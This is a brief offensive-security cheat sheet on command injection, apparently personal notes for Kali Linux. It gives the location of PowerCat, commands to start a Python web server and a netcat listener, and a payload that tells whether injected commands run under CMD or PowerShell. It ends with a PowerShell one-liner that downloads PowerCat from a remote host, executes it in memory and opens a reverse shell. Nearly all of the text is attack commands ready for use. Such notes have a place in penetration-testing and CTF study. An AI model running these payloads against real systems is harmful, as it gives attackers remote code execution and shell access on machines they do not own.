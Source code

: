 # Command Injection Quick Tips

#### PowerCat Location on Kali

```sh
/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps
```

#### Starting a Python Server on port 80

```bash
kali@kali:~$ python3 -m http.server 80
```

#### Starting a Netcat Listener on Port 4444

```bash
kali@kali:~$ nc -nvlp 4444
```

#### Determining Command Execution Environment

To determine if commands are executed by CMD or PowerShell:

```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo Powershell
```

#### To create a reverse shell by downloading PowerCat and connecting to a Netcat listener:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://example.com/powercat.ps1");powercat -c [IP] -p [PORT] -e powershell
```

Replace `[IP]` and `[PORT]` with the appropriate IP address and port number for your Netcat listener.





